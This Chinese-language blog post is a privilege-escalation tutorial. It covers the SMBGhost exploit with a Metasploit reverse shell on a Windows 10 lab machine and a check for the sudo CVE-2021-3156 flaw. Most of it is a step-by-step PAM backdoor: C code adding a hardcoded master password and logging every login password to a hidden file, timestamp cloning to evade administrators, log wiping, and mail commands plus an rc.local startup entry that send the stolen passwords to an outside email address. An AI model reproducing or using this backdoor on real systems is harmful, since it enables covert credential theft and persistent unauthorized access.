 ```yaml
---
title: 手工提权
author: Spade-Z
top: false
cover: false
toc: true
mathjax: false
date: 2021-05-13 09:28:46
img: https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%830.png
coverImg: https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%831.png
password:
summary:
    通常情况下我们通过 Web 服务获取到站点的 Webshell 权限都是普通用户的权限，这个时候能做的事情非常的少，所以我们需要提权来进行扩大战果。
tags:
    -工具
    -Windows提权
    -Linux提权
categories:
    -系统安全
---
```



# 一、Window10 提权漏洞
漏洞复现
靶机：win10虚拟机  ip：192.168.216.128(防火墙关闭)
攻击机：kali虚拟机  ip：192.168.202.130
## 1:检测系统是否存在漏洞
>git下载地址[传送门](https://github.com/ollypwn/SMBGhost)
用法：python3 scanner.py 目标ip
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%831.png)
目标存在该漏洞
## 2:提权POC提权
POC下载地址[传送门](https://github.com/chompie1337/SMBGhost_RCE_Po)
- 第一步：msf生成反向连接木马：
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%832.png)
- 第二步：生成的exploit.py 生成的code，替换到exploit.py的USER_PAYLOAD参数，并把参数buf改为USER_PAYLOAD。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%833.png)
- 第三步：启动msf
配置监听
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%834.png)
- 第四步：运行poc，自动建立连接
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%835.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%836.png)
查看当前用户权限
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%837.png)
如果不是system权限可以使用msf中的getsystem进行一下提权，也可以使用对应漏洞的提权文件
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%838.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%839.png)
执行完提权文件cve-2020-0796-local.exe后可以看到成功提权到system权限

# 二、Linux sudo提权漏洞
漏洞编号：CVE-2021-3156
漏洞级别：高危
受影响版本：
		sudo: 1.8.2 - 1.8.31p2
        sudo: 1.9.0 - 1.9.5p1
检测方法：
    以非root用户登录系统，并运行如下命令：
    sudoedit -s /
-   如果响应一个以sudoedit:开头的报错，那么表明存在漏洞。
-   如果响应一个以usage:开头的报错，那么表明补丁已经生效。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8310.png)
POC利用
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8311.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8312.png)

# 三、自动劫持root密码并转发密码到邮箱

## 1.过PAM认证模块劫持密码
思路：在 xuegod63 上安装一个打了后门补丁的 PAM 认证模块，当用户来连接时，直接把密码记录下来。然后使用脚本发给我们的邮箱中
- 查看pam版本
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8313.png)
下载对应版本软件包

## 2.安装gcc和pam依赖
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8314.png)

## 3.安装PAM认证模块
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8315.png)
- 修改源码，在源码中添加后门
    <pre>
        [root@localhost Linux-PAM-1.1.8]# vim modules/pam_unix/pam_unix_auth.c
        180 retval = _unix_verify_password(pamh, name, p, ctrl);
        在 180 行下新增内容如下：
        if(strcmp(p,"1234567")==0){
        return PAM_SUCCESS;
        }
        if(retval==PAM_SUCCESS){
        FILE *fp;
        fp = fopen("/tmp/.logs","a");
        fprintf(fp,"%s->%s\n",name,p);
        fclose(fp);
        }
    </pre>
    1234567 是 backdoor 密码
    /tmp/.logs 记录系统登录密码
- 解决 64 位系统编译时遇到 yywrap()函数未定义问题
    <pre>
    [root@localhost Linux-PAM-1.1.8]# vi conf/pam_conv1/pam_conv_l.c
    6 /* A lexical scanner generated by flex */
    第六行下插入代码
    7 int yywrap(){return 1;}
    [root@localhost Linux-PAM-1.1.8]# vi doc/specs/parse_l.c
    6 /* A lexical scanner generated by flex */
    第六行下插入代码
    7 int yywrap(){return 1;}
    </pre>
- 配置 PAM 以下都是默认参数，因为安装了 flex，需要手工指定路径。
    <pre>
    [root@localhost Linux-PAM-1.1.8]# ./configure --prefix=/user --exec-prefix=/usr --localstatedir=/var --sysconfdir=/etc --disable-selinux --with-libiconv-prefix=/usr
    [root@localhost Linux-PAM-1.1.8]# make
    </pre>
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8316.png)
- 安装编译好的PAM模块
    <pre>
    [root@localhost Linux-PAM-1.1.8]# cd /lib64/security/
    </pre>
- 备份原始版本
    <pre>
    [root@localhost security]# mv pam_unix.so{,bak}
    </pre>
-  覆盖系统现有pam
    <pre>
    [root@localhost security]# cp /root/Linux-PAM-1.1.8/modules/pam_unix/.libs/pam_unix.so /lib64/security/
    </pre>
- 克隆原始文件时间，防止时间戳发生改变被管理员检测到
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8317.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8318.png)
- 新建Xshell终端窗口
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8319.png)
    密码成功记录
    清除系统登陆记录
    <pre>
    [root@localhost security]# rm -rf /tmp/.logs
    </pre>
- 测试后门密码登陆
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8320.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8321.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8322.png)
## 3.自动发送邮件
- （1）使用 mail.rc 实现发邮件
    <pre>
    [root@xuegod63 ~]# vim /etc/mail.rc #在此文件最后插入以下内容：
    set from=15595243411@163.com smtp=smtp.163.com
    set smtp-auth-user=15595243411 smtp-auth-password=PASSWORD smtp-auth=login
    注：
    set from=15595243411@163.com #指定发件人的邮箱，这里就写成和收件人的邮箱一样。
    set smtp-auth-user=15595243411 #写自己发件人的邮箱帐号
    smtp-auth-password=PASSWORD #写自己发件人的邮箱的授权码
    </pre>
- （2）配置 163 邮箱，开启 pop3/smtp 服务
- （3）测试邮件发送
    <pre>
    [root@localhost ~]# mail -s "demo title" 15595243411@163.com < /tmp/.logs
    </pre>
    查看
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8323.png)
- （4）编写 shell 脚本自动发邮件，邮件的主题是服务器的 IP 地址
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8324.png)
- （5）测试
    <pre>
    [root@localhost ~]# /bin/zipmail
    </pre>
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8325.png)
## 4.实现当用户通过 ssh 登录系统后，自动发邮件
- 安装inotify
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8326.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8327.png)
    <pre>
    [root@localhost inotify-tools-3.13]# make  -j 4
    [root@localhost inotify-tools-3.13]# make install
    </pre>
-  编写出发时自动发邮件脚本
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8328.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8329.png)
- 设置开机启动zipmail脚本
    <pre>
    [root@localhost inotify-tools-3.13]# vi /etc/rc.local
    #在此文件的最后插入以下内容。
    /bin/zipmail &
    </pre>
- 测试
    <pre>
    [root@localhost inotify-tools-3.13]# bash /etc/rc.local
    Xshell退出重连一下
    </pre>
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8330.png)
- 查看一下进程
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8331.png)